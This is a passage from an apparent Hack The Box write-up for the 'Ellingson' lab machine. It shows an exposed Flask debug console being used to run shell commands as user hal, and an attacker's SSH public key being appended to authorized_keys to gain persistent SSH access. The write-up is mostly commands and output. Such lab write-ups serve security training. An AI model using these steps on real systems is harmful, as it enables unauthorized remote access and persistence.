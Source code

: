 Debug information after exception is thrown by application

Before moving onto the console, we can see from the traceback that the application is a Flask application which is a framework for building web applications in Python. Going into the console, we can execute bash commands using the code:

```bash
[console ready]
>>> import subprocess
>>> proc = subprocess.check_output('whoami',shell=True)
>>> print(proc.decode('iso-8859-1'))
hal
>>>
Doing an ls on the home directory of hal reveals an .ssh folder
>>> proc = subprocess.check_output('ls -al /home/hal',shell=True)
>>> print(proc.decode('iso-8859-1'))
total 36
drwxrwx--- 5 hal hal 4096 May 7 2019 .
drwxr-xr-x 6 root root 4096 Mar 9 2019 ..
-rw-r--r-- 1 hal hal 220 Mar 9 2019 .bash_logout
-rw-r--r-- 1 hal hal 3771 Mar 9 2019 .bashrc
drwx------ 2 hal hal 4096 Mar 10 2019 .cache
drwx------ 3 hal hal 4096 Mar 10 2019 .gnupg
-rw-r--r-- 1 hal hal 807 Mar 9 2019 .profile
drwx------ 2 hal hal 4096 Mar 9 2019 .ssh
-rw------- 1 hal hal 865 Mar 9 2019 .viminfo
>>>
```

Looking at the contents of the .ssh folder, the authorized\_keys file contains public keys that do not match the public key in the file id\_rsa.pub. In any event, the id\_rsa key which contains the private key you would need to use to ssh onto the machine is encrypted. The easiest path is to produce a key yourself using ssh-keygen and add the public key in the authorized\_keys file:

```bash
>>> proc = subprocess.check_output('echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQA\
BAAABgQCqqO+JGJahJ1k1/WRLCJiWJAZ3DTRByeHeCXAfa7PyJpC7ryi0rD3OxZmQW3EiCP+ut\
jkTCmkLHwHNnh/66hHynwdZBlAGMb0aQ/sCHIx7MxFHPcugJJHh2Se7n4CDPVNNT12JX1isco4\
H4ss/pRfgk2vfnqSk3WUVj/bJu52Cs9rOlvZTVBmNpo85ttg57uThAMOSwpz2e7AaGUVVLV6qJ\
bajfJ4V4gpVWC9hztQB+1u03COqy2bmUlWvvKRhzDR6o9ZeDbhH+pKGUb42a0wnxoWXeUhxWca\
J1N/R1zsKUvn+MH1HemT4eEDWfJ3uiL4tASRneNooSE6ycw4SkEGZyVVadirFHsv8QgXp7ygtg\
y7mMT6f2NbjyLz4/D+iCcVpBWc+tL6722OhsOAE1E9PpTZsW6VqpqrbIqJ+b6PH9XuBcqcVEkZ\
cj7mN5r+/iErWydvsKOLCGeSjC60B5J6hhn9LE3ZK0kI2jdCx+tZzfVrkAmyeznKQb5x/ZfqZy\
Ak=" >> /home/hal/.ssh/authorized_keys',shell=True)
>>>
```

On the ParrotSec machine, you can then use the private key to ssh onto the box as hal.

```text
┌─[rin@parrot]─[~/boxes/Ellingson]
└──╼ $ssh -i hal.key hal@ellingson.htb
<SNIP>
Last login: Sun Mar 10 21:36:56 2019 from 192.168.1.211
hal@ellingson:~$
The user hal belongs to the groups hal and adm
hal@ellingson:~$ groups
hal adm
hal@ellingson:~$
```
